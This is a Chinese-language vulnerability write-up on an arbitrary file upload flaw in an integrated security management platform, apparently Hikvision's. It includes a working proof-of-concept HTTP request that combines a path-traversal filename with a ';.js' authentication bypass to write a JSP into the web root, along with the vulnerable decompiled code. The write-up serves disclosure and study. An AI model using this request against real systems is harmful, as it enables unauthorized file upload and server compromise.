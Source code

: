 #  某综合安防系统-任意文件上传漏洞分析   
 船山信安   2023-12-03 00:00  
  
# 0x00 简介  
  
综合安防管理平台管理平台基于 " 统一软件技术架构" 理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、配置、管理和调度  
# 0x01 漏洞概述  
  
该产品存在任意文件上传历史漏洞  
# 0x02 影响版本  
  
历史版本  
# 0x03 漏洞复现  
  
先上Poc  
```
POST /center/api/files;.js HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 1ac225cc-bdbe-4176-b806-a9a7c796ee33
Host: xxxxxxxxxxxxxx
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------180188939909122941133151
Cookie: JSESSIONID=A0A01DAF36544051C724ABCCB20A0EA6
Content-Length: 286

----------------------------180188939909122941133151
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hello.jsp"
Content-Type: application/octet-stream

hello
----------------------------180188939909122941133151--
```  
  
然后访问：http://192.168.43.72/clusterMgr/hello.jsp;.js  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMDRibJNb7rykKnOpeu1TicROS18MVWRDwkxl5V2V5AvC80RzQX5tw0NuAicWpNrzhqIAMWEc0Y38moQ/640?wx_fmt=png&from=appmsg "")  
# 0x04 漏洞分析  
  
CAS配置文件如下：/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/cas-client.properties，对.eot,.woff,.ttf,.svg,.gif,.css,.js,.json等文件不进行鉴权  
```
cas.ignore.pattern=/,*.html,/login,*.eot,*.woff,*.ttf,*.svg,*.gif,*.css,*.js,*.json,/casLogin,*.ico,*.icon,*.png,*.map,/api/meta/qrcode,/api/session,/api/session/captcha,/api/locales,/api/meta,/api/menus,/api/users/*/password,/api/fileUpload/*,/center/api/fileUpload/*,/api/clientInstall/LatestVersion,/api/clientResourceInstall/LatestVersion,/center/api/clientInstall/LatestVersion,/center/api/clientResourceInstall/LatestVersion,/api/machines/*/steps,/api/verifyCodeImage,/api/encryptParam,/api/webLogin,/api/modifyPassword,/api/negotiation,/api/webMachines,/api/webDelMachines,/api/webAlerts,/api/webResources,/api/webMenus,/api/settings/firewalls/*,/api/installMachineList/*,/api/clientInstall/*,/api/task/*,/api/bic/*,/api/installation/*,/api/external/*,/api/logsOnline/*
```  
  
文件上传函数，没有对filename进行过滤/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/com/hikvision/center/module/faq/controller/KnowledgeController.class  
```
@RequestMapping(
    value = {"/files"},
    method = {RequestMethod.POST}
)
public Object uploadFile(@RequestParam(value = "file",required = false) MultipartFile file, HttpServletResponse response, @RequestParam(value = "upload",required = false) MultipartFile upload, HttpServletRequest request) throws IOException {
    if (request.getCharacterEncoding() == null) {
        request.setCharacterEncoding("UTF-8");
    }

    String CKEditor = request.getParameter("CKEditor");
    ResultData responseBean = new ResultData();
    String result;
    if (file == null) {
        if (upload == null) {
            if (StringUtils.isBlank(CKEditor)) {
                responseBean.setCode("0x0011775d");
                responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                return responseBean;
            }

            result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
            String languageType = LocaleTextUtil.getLocalLanguage();
            if ("zh_CN".equals(languageType)) {
                result = new String(result.replace("?", "请选择文件").getBytes("UTF-8"), "ISO-8859-1");
            } else {
                result = new String(result.replace("?", "choose file please").getBytes("UTF-8"), "ISO-8859-1");
            }

            response.getOutputStream().print(result);
            return null;
        }

        file = upload;
    }

    result = null;
    User user = BusLogUtil.getUser();
    if (user != null) {
        result = user.getUserId();
    }

    String filename = file.getOriginalFilename();
    this.logger.debug(HikLog.toLog(HikLog.message("uploadFile", new String[]{"username", "filename", "CKEditor"})), new Object[]{result, filename, CKEditor});
    JSONObject json = null;

    try {
        json = this.knowledgeService.uploadFile(file);
        this.operationRecordService.sendLogToCenter("uploadFile", true, "file", "", filename, "", "", "knowledgeBase", "", 0, "", "");
        if (StringUtils.isBlank(CKEditor)) {
            responseBean.setCode("0");
            responseBean.setMsg((String)null);
            responseBean.setData(json);
            return responseBean;
        } else {
            String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '?', '');</script>";
            result = result.replace("?", new String(json.getString("link").getBytes("UTF-8"), "ISO-8859-1"));
            response.setContentType("text/html;charset=utf-8");
            response.getOutputStream().print(result);
            return null;
        }
    } catch (Exception var14) {
        String code = "";
        if (var14 instanceof ProgramException) {
            code = ((ProgramException)var14).getCode();
                     } else {
                     code = "0x00137759";
                     }

                     this.logger.error(HikLog.toLog(HikLog.message("upload file error", new String[]{"errorCode", "error"})), code, var14);
                     this.operationRecordService.sendLogToCenter("uploadFile", false, "file", "", filename, "", "", "knowledgeBase", "", 1, "", code);
                     if (StringUtils.isBlank(CKEditor)) {
                     responseBean.setCode("0x00137759");
                     responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                     responseBean.setData(json);
                     return responseBean;
                     } else {
                     String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
                     result = result.replace("?", LocaleTextUtil.getErrorText("0x00137759"));
                     response.getOutputStream().print(result);
                     return null;
                     }
                     }
                     }
```  
  
KnowledgeServiceImpl#uploadFile，直接拼接文件名filename  
```
public JSONObject uploadFile(MultipartFile file) {
        String uuid = UUID.randomUUID().toString();
        String filename = null;

        try {
            filename = new String(file.getOriginalFilename().getBytes(System.getProperty("sun.jnu.encoding")), "UTF-8");
        } catch (UnsupportedEncodingException var9) {
            filename = file.getOriginalFilename();
        }

        String resourcePath = AddressUtil.getResourcePath() + File.separator + "resource" + File.separator + uuid;
        File resourceFile = new File(resourcePath);
        if (!resourceFile.exists()) {
            resourceFile.mkdirs();
        }

        JSONObject json = new JSONObject();

        try {
            file.transferTo(new File(resourcePath + File.separator + filename));
        } catch (Exception var8) {
            this.logger.error(HikLog.toLog(HikLog.message("upload file fail", new String[]{"e"})), var8);
            throw new ProgramException("0x00137759");
        }

        json.put("id", uuid);
        json.put("filename", filename);
        String link = AddressUtil.getFAQResourceUrl() + "/resource/" + uuid + "/" + filename;
        link = link.replace("\\", "/");
        json.put("link", link);
        return json;
    }
```  
  
我们知道，Spring 在处理url时，removeSemicolonContentInternal方法，主要的功能是  
1. 移除所有的分号  
  
1. 移除分号后面直到下一个斜杠”/”之间的所有字符  
  
拼接的/center/api/files;.js可以绕过鉴权，同时经过removeSemicolonContentInternal方法 ==》得到/center/api/files，分发到正确的路由，导致文件上传  
# 0x05 修复方式  
  
联系官方打补丁  
  
来源：https://xz.aliyun.com/ 感谢【  
KimJun  
】  
  
